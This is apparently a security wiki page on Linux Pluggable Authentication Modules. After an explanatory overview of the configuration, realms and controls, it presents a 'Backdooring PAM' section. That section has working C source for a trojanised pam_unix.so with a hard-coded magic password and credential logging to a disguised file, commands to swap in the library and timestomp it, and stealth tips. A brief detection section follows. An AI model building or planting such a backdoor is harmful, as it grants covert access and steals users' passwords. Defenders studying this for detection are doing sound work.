 # PAM - Pluggable Authentication Modules


### Basic Information

**PAM (Pluggable Authentication Modules)** acts as a security mechanism that **verifies the identity of users attempting to access computer services**, controlling their access based on various criteria. It's akin to a digital gatekeeper, ensuring that only authorized users can engage with specific services while potentially limiting their usage to prevent system overloads.

#### Configuration Files

- **Solaris and UNIX-based systems** typically utilize a central configuration file located at `/etc/pam.conf`.
- **Linux systems** prefer a directory approach, storing service-specific configurations within `/etc/pam.d`. For instance, the configuration file for the login service is found at `/etc/pam.d/login`.

An example of a PAM configuration for the login service might look like this:

```
auth required /lib/security/pam_securetty.so
auth required /lib/security/pam_nologin.so
auth sufficient /lib/security/pam_ldap.so
auth required /lib/security/pam_unix_auth.so try_first_pass
account sufficient /lib/security/pam_ldap.so
account required /lib/security/pam_unix_acct.so
password required /lib/security/pam_cracklib.so
password required /lib/security/pam_ldap.so
password required /lib/security/pam_pwdb.so use_first_pass
session required /lib/security/pam_unix_session.so
```
```
#### **PAM Management Realms**

These realms, or management groups, include **auth**, **account**, **password**, and **session**, each responsible for different aspects of the authentication and session management process:

- **Auth**: Validates user identity, often by prompting for a password.
- **Account**: Handles account verification, checking for conditions like group membership or time-of-day restrictions.
- **Password**: Manages password updates, including complexity checks or dictionary attacks prevention.
- **Session**: Manages actions during the start or end of a service session, such as mounting directories or setting resource limits.

#### **PAM Module Controls**

Controls dictate the module's response to success or failure, influencing the overall authentication process. These include:

- **Required**: Failure of a required module results in eventual failure, but only after all subsequent modules are checked.
- **Requisite**: Immediate termination of the process upon failure.
- **Sufficient**: Success bypasses the rest of the same realm's checks unless a subsequent module fails.
- **Optional**: Only causes failure if it's the sole module in the stack.

#### Example Scenario

In a setup with multiple auth modules, the process follows a strict order. If the `pam_securetty` module finds the login terminal unauthorized, root logins are blocked, yet all modules are still processed due to its "required" status. The `pam_env` sets environment variables, potentially aiding in user experience. The `pam_ldap` and `pam_unix` modules work together to authenticate the user, with `pam_unix` attempting to use a previously supplied password, enhancing efficiency and flexibility in authentication methods.

## Backdooring PAM – Hooking `pam_unix.so`

A classic persistence trick in high-value Linux environments is to **swap the legitimate PAM library with a trojanised drop-in**.  Because every SSH / console login ends up calling `pam_unix.so:pam_sm_authenticate()`, a few lines of C are enough to capture credentials or implement a *magic* password bypass.

### Compilation Cheatsheet
```c
#define _GNU_SOURCE
#include <security/pam_modules.h>
#include <dlfcn.h>
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

static int (*orig)(pam_handle_t *, int, int, const char **);
static const char *MAGIC = "Sup3rS3cret!";

int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    const char *user, *pass;
    pam_get_user(pamh, &user, NULL);
    pam_get_authtok(pamh, PAM_AUTHTOK, &pass, NULL);

    /* Magic pwd → immediate success */
    if(pass && strcmp(pass, MAGIC) == 0) return PAM_SUCCESS;

    /* Credential harvesting */
    int fd = open("/usr/bin/.dbus.log", O_WRONLY|O_APPEND|O_CREAT, 0600);
    dprintf(fd, "%s:%s\n", user, pass);
    close(fd);

    /* Fall back to original function */
    if(!orig) {
        orig = dlsym(RTLD_NEXT, "pam_sm_authenticate");
    }
    return orig(pamh, flags, argc, argv);
}
```
```
Compile and stealth-replace:
```bash
gcc -fPIC -shared -o pam_unix.so trojan_pam.c -ldl -lpam
mv /lib/security/pam_unix.so /lib/security/pam_unix.so.bak
mv pam_unix.so /lib/security/pam_unix.so
chmod 644 /lib/security/pam_unix.so     # keep original perms
touch -r /bin/ls /lib/security/pam_unix.so  # timestomp
```
```
### OpSec Tips
1. **Atomic overwrite** – write to a temp file and `mv` into place to avoid half-written libraries that would lock out SSH.
2. Log file placement such as `/usr/bin/.dbus.log` blends with legitimate desktop artefacts.
3. Keep symbol exports identical (`pam_sm_setcred`, etc.) to avoid PAM mis-behaviour.

### Detection
* Compare MD5/SHA256 of `pam_unix.so` against distro package.
* Check for world-writable or unusual ownership under `/lib/security/`.
* `auditd` rule: `-w /lib/security/pam_unix.so -p wa -k pam-backdoor`.

### References

- [[https://hotpotato.tistory.com/434|https://hotpotato.tistory.com/434]]
- [[https://unit42.paloaltonetworks.com/infiltration-of-global-telecom-networks/|Palo Alto Unit42 – Infiltration of Global Telecom Networks]]




